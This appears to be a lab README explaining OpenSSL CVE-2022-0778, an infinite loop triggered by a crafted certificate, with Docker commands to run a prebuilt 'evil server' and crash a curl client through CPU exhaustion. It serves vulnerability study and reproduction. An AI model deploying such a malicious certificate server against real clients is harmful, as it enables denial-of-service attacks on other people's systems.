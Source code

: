 # Impact of the OpenSSL Infinite Loop Vulnerability (CVE-2022-0778)

[中文版本(Chinese version)](README.zh-cn.md)

OpenSSL is a software library for applications that secure communications over computer networks against eavesdropping or need to identify the party at the other end.

A flaw was found in OpenSSL. It is possible to trigger an infinite loop by crafting a certificate that has invalid elliptic curve parameters. Since certificate parsing happens before verification of the certificate signature, any process that parses an externally supplied certificate may be subject to a denial of service attack.

Reference links:

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## Vulnerability environment

Execute following command to start a server:

```
docker compose up -d
```

## Reproduce vulnerability

Firstly, use [this project](https://github.com/vulhub/cve-2022-0778) to build and run an evil server. If you don't have the Golang compiler, just use the Docker image:

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

Then you can monitor the CPU usage inside the container through `top`:

```
docker compose exec curl top
```

This vulnerability is available when parsing the certificate, so we can use the cURL to demonstrate it.

Entry the environment, and use the cURL to browse the evil server that started before:

```
docker compose exec curl bash
curl -k https://host.docker.internal:12345
```

At this point, cURL will be caught in an infinite loop, and CPU resources will be exhausted unexpectedly:

![](1.png)
